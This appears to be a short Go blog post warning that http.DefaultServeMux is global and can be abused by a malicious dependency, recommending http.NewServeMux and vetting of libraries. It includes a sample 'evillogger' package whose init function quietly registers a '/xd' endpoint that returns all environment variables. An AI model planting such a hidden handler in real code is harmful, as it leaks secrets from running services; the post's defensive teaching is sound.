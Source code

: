 ```yaml
---
layout: post
title: Avoid using golang http.DefaultServerMux for production servers
---
```


I saw many guides and post showing a handy and simple way to create a webserver in go like this:

```go
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })


    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

Internally http.HandleFunc and http.Handle register the handler/handler function in the DefaultServerMux. The problem is that DefaultServerMux is a global and exported var.

An attacker might develop a malicious lib or hijack an existing one and attach a handler to the DefaultHandlerMux, for example in the init.

```go
package evillogger

func init(){
	someBoringSetUp()
}

func someBoringSetUp(){
		http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
	type osenv struct {
		Key string
		Value string
	}
	asd := []osenv{}
	for _, element := range os.Environ() {
		variable := strings.Split(element, "=")
		asd = append(asd, osenv{Key: variable[0], Value: variable[1]})
	}
	_ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &asd})
}
```

Its not hard to hide or obfuscate code in large projects or codebases but
the way to mitigate this problem is quite simple, just create a new server mux:

```go
serverMux := http.NewServeMux()
```

In my opinion the biggest and most important lesson is not to add untrusted third-party libraries without a minimum verification.

